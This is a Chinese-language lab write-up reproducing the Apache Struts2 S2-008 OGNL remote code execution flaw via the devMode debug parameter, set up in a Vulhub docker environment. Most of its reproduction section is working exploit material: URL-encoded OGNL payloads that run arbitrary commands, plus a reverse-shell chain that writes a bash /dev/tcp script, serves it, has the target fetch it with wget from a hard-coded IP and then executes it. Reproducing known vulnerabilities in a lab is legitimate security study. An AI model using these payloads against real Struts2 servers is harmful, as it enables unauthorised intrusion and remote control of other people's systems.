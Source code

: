 # Struts2 S2-008 远程代码执行漏洞

## 漏洞描述

S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

参考文章：

-  http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

漏洞详情:

- http://struts.apache.org/docs/s2-008.html

## 影响版本

影响版本: 2.1.0 - 2.3.1

## 环境搭建

Vulhub执行以下命令启动s2-008测试环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

在 devMode 模式下直接添加参数`?debug=command&expression=<OGNL EXP>`，会直接执行后面的 OGNL 表达式，因此可以直接执行命令（注意转义）。

```
http://your-ip:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)
```

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
http://your-ip:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22wget%20192.168.174.128%2fshell.sh%22%29)
```

执行shell.sh文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行shell.sh文件的Payload为：

```
http://your-ip:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22bash%20%2fusr%2flocal%2ftomcat%2fshell.sh%22%29)
```

成功接收反弹shell：

![image-20220301165140045](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011651129.png)

